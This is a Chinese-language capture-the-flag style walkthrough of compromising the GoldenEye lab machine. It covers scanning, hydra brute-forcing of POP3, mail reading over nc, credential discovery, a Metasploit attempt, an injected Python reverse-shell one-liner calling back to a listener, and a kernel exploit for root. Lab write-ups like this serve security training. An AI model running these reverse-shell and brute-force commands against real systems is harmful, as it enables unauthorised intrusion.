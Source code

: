 

# 记一次对 GoldenEye 的渗透 - 先知社区

记一次对 GoldenEye 的渗透

- - -

# 一、信息收集

1.arp-scan-l 收集目标 ip

[![](assets/1704771507-055e683ab9349c2edfa8484f466d8c76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175146-8965e478-ae0b-1.png)

2.使用命令：nmap -sP 192.168.182.0/24

[![](assets/1704771507-8b73989f9bdca4031f7f76aef016caa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175200-917fa932-ae0b-1.png)

3.使用命令：nmap -sS -sV -T5 -A -p- 192.168.182.141

[![](assets/1704771507-5a17a79e76d2c0139c5ba7db81c7cc26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175217-9b9990d6-ae0b-1.png)

4.到/sev-home/目录中。

[![](assets/1704771507-647eae4205115c9a2c11e9e026d26929.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175226-a0ec640a-ae0b-1.png)

5.检查主页的 html 内容以获取任何有用的提示（F12 查看）

[![](assets/1704771507-07d138e39ef124fe5305db0e258f4d51.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175240-a9709d1c-ae0b-1.png)

6.发现了一个用户名和密码，然后发现了一个编码加密

[![](assets/1704771507-265add94a5e77bdf460b66726049126c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175251-b0217618-ae0b-1.png)

7，使用 burp 解密模块解密。

[![](assets/1704771507-b39249d9991ff1042ab20fcbd727dcd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175301-b5b52070-ae0b-1.png)

8.然后登录  
Natalya  
Boris

Natalya  
InvincibleHack3r

[![](assets/1704771507-a6f8bf0d906708b9770ce8f044ab87a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175321-c1fb59ee-ae0b-1.png)

9.然后使用 f12 查看，发现了 pop3 服务。POP3 服务器的端口：55006、55007。

[![](assets/1704771507-1973f7b7589a4710c4743c77990f1298.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175332-c8810e76-ae0b-1.png)

10.浏览器上访问发现是 55007 端口。

[![](assets/1704771507-583f7badf5ff92dc5392b9292100f8f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175402-da3d0dea-ae0b-1.png)

11.开始生成字典，开始爆破密码。  
hydra -L t1t.txt -P /usr/share/wordlists/fasttrack.txt 192.168.182.141 -s 55007 pop3

[![](assets/1704771507-5ca81254204413e0c009d3b39be7c1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175412-e041ce9c-ae0b-1.png)

12.开始使用 nc 连接，用户：boris 密码：secret1! 用户：natalya 密码：bird  
然后开始读邮件

[![](assets/1704771507-e0f1aafd8206b547ef8456e77d55c514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175423-e687a3c6-ae0b-1.png)

13.使用，用户：natalya 密码：bird，开始都邮件。

[![](assets/1704771507-a9d9eaa4af2cdabfba02feb5a7f835d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175432-ec2086d6-ae0b-1.png)

[![](assets/1704771507-07ac9ae91aa960f6e115c4794790f9ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175442-f1d5fff2-ae0b-1.png)

14.找到了敏感信息泄露

[![](assets/1704771507-32a2ab688ad13ab9067d1739f4ea3d6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175452-f816acea-ae0b-1.png)

15.进入/etc/hosts 目录，加入 severnaya-station.com

```bash
用户名：xenia
密码：RCP90rulez!
域：severnaya-station.com
网址：severnaya-station.com/gnocertdir
```

我们现根据邮件提示添加本地域名：severnaya-station.com

[![](assets/1704771507-b4ffbc8044a2a22f21e204d42df61c68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175509-0259b59e-ae0c-1.png)

16.本地访问。

[![](assets/1704771507-bdf156b11b93fb10a9bba6422d4cf157.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175520-08c40a1a-ae0c-1.png)

17 登录之后，发现一个 doak 用户

[![](assets/1704771507-bb892f633d160d3f5d1ccfefbe73efa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175529-0e38b194-ae0c-1.png)

18.加入字典

[![](assets/1704771507-99eef4ae39b014327e231fe4c252d88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175538-1368f52a-ae0c-1.png)

19.开始爆破

成功登录  
[![](assets/1704771507-1811290d5ec90d596aa40e9b57c4f34b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175552-1bed7f04-ae0c-1.png)  
username: dr\_doak  
password: 4England!  
[![](assets/1704771507-c9c999438defa302c21b3ac0288df74c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181154-5944d3c8-ae0e-1.png)  
登录之后，发现有一个图片

[![](assets/1704771507-cdc97642fb84e067f661f7970e732d9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181257-7eac8f8e-ae0e-1.png)

[![](assets/1704771507-c9431682be562b7e39d6a68a07254b8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181136-4eb1aac6-ae0e-1.png)

然后下载到本地。  
[![](assets/1704771507-c2b06bba9541e54d0df70e64f6e170df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181308-856720a0-ae0e-1.png)  
进行图片检查  
[![](assets/1704771507-859a535a70c5e71da4b565e037394b2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181409-a98d7d3a-ae0e-1.png)  
发现存在 base64 加密的编码  
[![](assets/1704771507-cf492e7817234abf632b6b1b4363cd1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181423-b1d375a8-ae0e-1.png)  
解密之后，成功获得管理员用户密码。 
xWinter1995x!

## 二、漏洞利用

[![](assets/1704771507-f3660d7e8f5ccb0b4d7409d49834033f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181431-b6c068d2-ae0e-1.png)  
接着使用账号密码进行登录。发现其框架和版本。  
[![](assets/1704771507-297ff779173892fff4f1dc6d0ab22c0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181521-d4550470-ae0e-1.png)  
使用 google 搜索历史漏洞  
[![](assets/1704771507-8081dd31a9f648b5668bb7e729779b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181528-d89267e4-ae0e-1.png)  
使用 msf 进行搜索 exp  
[![](assets/1704771507-e86ad592781246b7700d8ef4815d993a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181555-e8b2c240-ae0e-1.png)  
设置 payload

设置用户名：admin  
设置密码：xWinter1995x！  
xWinter1995x！  
设置：rhosts severnaya-station.com  
设置：targeturi / gnocertdir  
设置 payload：cmd / unix / reverse  
设置：lhost 192.168.1.45  
[![](assets/1704771507-ba5e1a5eb4c404e8f171b8481838415c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181603-edf1d020-ae0e-1.png)  
利用之后，没有成功。接着发现有上传漏洞  
更改编辑器模式为 googlshhell  
[![](assets/1704771507-b84327b46c19705f8e5f705587f26c64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181614-f4596ef0-ae0e-1.png)  
添加反弹 shell 的 payload

[![](assets/1704771507-db9d8d6615074175dc8f8133284472b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181623-f975ed00-ae0e-1.png)

```bash
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.119.128”,6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

然后新建一个邮件，来触发漏洞  
[![](assets/1704771507-ad56b585ba64b3dc4a1e9d92c8df75e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181632-fea84ab6-ae0e-1.png)

成功反弹 shell。  
[![](assets/1704771507-c798c26dd820b948e708b16bd5325345.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181644-063050da-ae0f-1.png)

## 三、权限提升

接着使用 uname -a 来查看 linux 版本  
使用 msf 搜索可利用的 exp  
[![](assets/1704771507-557b54c49adb8c1381af849005791e03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181651-0a745a60-ae0f-1.png)  
下载到本地  
[![](assets/1704771507-f1ae4efcdf98831a32ee4d096d016a13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181659-0f0d65bc-ae0f-1.png)  
将 exp 上传到远程服务器  
[![](assets/1704771507-2c8bbdc46b08c0bf90be3e4892e2142a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181709-14f41b4c-ae0f-1.png)  
[![](assets/1704771507-beee8052b5c4aaf811c93c0c3c5ac4a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181716-191439a0-ae0f-1.png)  
使用 cc 进行编译脚本  
[![](assets/1704771507-032262515745ce69993c7b4bdcf282bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181723-1d246222-ae0f-1.png)  
开启 http 监听  
[![](assets/1704771507-8c8a228d13f8d07a9dec7eb197fe59fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181729-20d50142-ae0f-1.png)  
添加执行权限并执行 exp 脚本  
[![](assets/1704771507-87e3875ae361d765796cd8df94c841e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181736-2550843a-ae0f-1.png)  
成功获取 root 文件  
[![](assets/1704771507-dd55d15f5ea4a06d1e0f5c057bd4f9f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181744-29f0614a-ae0f-1.png)
